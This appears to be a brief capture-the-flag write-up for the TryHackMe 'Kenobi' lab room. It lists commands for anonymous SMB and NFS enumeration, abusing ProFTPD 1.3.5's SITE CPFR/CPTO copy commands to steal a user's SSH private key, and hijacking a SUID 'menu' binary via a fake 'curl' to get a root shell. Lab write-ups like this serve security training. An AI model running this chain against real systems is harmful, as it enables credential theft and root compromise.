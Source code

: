 # TryHackMe Kenobi Room

IP=`10.10.148.26`

Ports: #7
```
21:ftp
22:ssh
80:http
111:rpcbind
139:smbd
445:smbd
2049:nfs_acl
```

Used Kali Box to access the smbclient as anonymous (no password needed)
`smbclient //10.10.148.26/anonymous`
then to get the only file there: log.txt
`exit`
`smbget -R smb://10.10.148.26/anonymous`

From the log we can see kenobi has stored their ssh keys in 
`/home/kenobi/.ssh/id_rsa`

Then we use
`nmap -p 111 10.10.148.26 --script=nfs-ls.nse,nfs-showmount.nse,nfs-statfs -oN nmap/rpc_nfs_enum`
to enumerate the smbd server

logon to the ftp server
`netcat 10.10.148.26 21`
Notice that the server is a proftpd server v.1.3.5
used a simple ftp server exploit to copy files from one area to another
`SITE CPFR /home/kenobi/.ssh/id_rsa`
`SITE CPTO /var/tmp/id_rsa`
Then we mount /var as it is available from the smb server
`sudo mount_nfs -o resvport 10.10.148.26:/var mnt/ken`
Navigate and copy the id_rsa file to our machine
`sudo umount ken` to unmount the drive

Now we login with his ssh private key and look for suid files
I decided to just run linpeas and be lazy
we found: `/usr/bin/menu` which had full perms and therefore exploitable
`echo /bin/bash -p > curl`
`mv curl /tmp`
`menu
1;cat /root/root.txt`
And we got the flag!
